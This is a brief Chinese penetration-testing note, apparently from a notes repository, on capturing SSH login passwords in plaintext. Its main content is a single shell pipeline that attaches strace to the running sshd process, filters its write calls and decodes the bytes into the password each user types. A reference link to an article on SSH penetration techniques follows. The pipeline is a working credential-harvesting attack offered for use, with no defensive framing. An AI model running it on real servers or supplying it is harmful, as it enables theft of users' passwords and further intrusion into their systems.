

# SSH


可以获取ssh的登陆密码，可以在监测sshlogin过程中ssh密码明文
```shell
strace -xx -fp `cat /var/run/sshd.pid` 2>&1 | grep --line-buffered -P 'write\(\d, "\\x00' | perl -lne '$|++; @F=/"\s*([^"]+)\s*"/g;for (@F){tr/\\x//d}; print for @F'|grep --line-buffered -oP '.{8}\K([2-7][0-9a-f])*$'|grep --line-buffered -v '^64$'|perl -pe 's/([0-9a-f]{2})/chr hex $1/gie'
```



## 资料

渗透技巧之SSH篇

http://www.91ri.org/9255.html